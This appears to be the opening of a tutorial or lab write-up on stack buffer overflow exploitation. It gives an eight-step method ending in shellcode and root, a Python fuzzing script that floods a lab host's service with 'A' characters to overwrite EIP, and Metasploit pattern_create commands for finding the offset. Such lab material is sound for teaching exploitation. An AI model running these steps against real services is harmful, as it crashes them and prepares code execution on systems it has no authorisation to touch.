 




## Methodology
1. Spiking - Method used to find vunlerable part of program 
2. Fuzzing - Send bunch of char to break it
3. Finding the offset - At what offset we break it 
4. Overwriting the EIP 
5. Finding bad characters
6. Finding the right module
7. Generating shellcode
8. Root

**Triggering the bug:**

1. By sending the bunch of A's in the program features if you see that EIP is overwritten then it is triggered.
```python
#!/usr/bin/env python2
import socket

# set up the IP and port we're connecting to
RHOST = "192.168.43.142"
RPORT = 31337

# create a TCP connection (socket)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 # build a happy little message followed by a newline
buf = ""
buf += "A"*1024
buf += "\n"
 # send the happy little message down the socket
s.send(buf)
 # print out what we sent
print "Sent: {0}".format(buf)
 # receive some data from the socket
data = s.recv(1024)
 # print out what we received
print "Received: {0}".format(data)
```

*Now we need to find at what place those 4 byte A's exists which broke the program.*

***Note: How to test ?
Increase 1024 to 2x then so on***

**Discovering the offsets:**
For this one we going to use metasploit module to generate paylod to break the program.
`/usr/share/metasploit-framework/tools/pattern_create.rb`
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb`

So by the command `patten_create.rb -l 1024`. We will be able to make pattern from which we will identify the offset.
